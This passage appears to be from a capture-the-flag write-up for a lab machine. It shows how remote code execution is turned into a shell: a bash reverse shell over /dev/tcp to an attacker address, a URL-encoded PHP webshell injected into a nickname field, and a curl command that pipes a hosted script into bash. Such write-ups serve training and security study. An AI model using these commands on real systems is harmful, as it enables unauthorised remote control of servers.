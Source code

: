 YOUHOUUU we have **RCE** ! 

Lets retry with reverse shell, so creat a file named `rce.sh` for exemple and paste that reverse shell in : 

```bash
#!/bin/bash

bash -i >& /dev/tcp/attackeer_ip/1234 0>&1
```

run python web server : `python3 -m http.server 80` 

Repate the operation but when you injecte php code on the **nickname** parameter enter this basic webshell :

```bash
#url encode
%3C?php%20system($_GET%5B'cmd'%5D);%20?%3E
```

![webshell](/assets/Clicker/webshell.png)

![webshell_rce](/assets/Clicker/webshell_rce.png)

run your listener : `pwncat-cs :1234`

on the web shell url : `curl+http://10.10.16.5/rce.sh|bash`
